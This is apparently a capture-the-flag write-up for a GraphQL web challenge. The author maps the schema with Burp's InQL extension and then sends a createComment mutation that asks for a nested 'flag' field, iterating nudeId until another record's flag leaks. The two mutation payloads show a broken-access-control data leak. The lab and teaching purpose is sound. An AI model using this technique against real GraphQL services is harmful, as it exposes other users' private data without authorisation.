




Here we create user and then login.
After this, we can see the posts which are working using `GraphQL`, we send this to analyze in `InQL` burp extension, and get this:



As we can see, we have both `queries` and `mutations`.

First we try to achieve the flag from the nude of the owner, however, we can't get that.



Then, we move to the mutation `createComment`.
```gql
mutation createComment {
    createComment(userId: 1, postId: 1, nudeId: 1, comment: "a") {
        comment
        createdAt
        id
        nude {
            createdAt
            flag
            id
            updatedAt
        }
        nudeId
        postId
        updatedAt
    }
}
```

Every `mutation` is also playing is `query`, which means it will retrieve the data after creating the comment.
In that way, we can leak the flag of `nudeId` number 1.



We didn't get it, but we are close, as the message says:
```
You're too strong, but my nude is not here
```


When trying `nudeId` number 2, we achieve the FLAG!

This is our payload:
```gql
mutation createComment {
    createComment(userId: 29, postId: 1, nudeId: 2, comment: "a") {
        comment
        createdAt
        id
        nude {
            createdAt
            flag
            id
            updatedAt
        }
        nudeId
        postId
        updatedAt
    }
}
```



**Flag:** **_`GraphQLDoesNeedAccessControl!!!!!!`_**
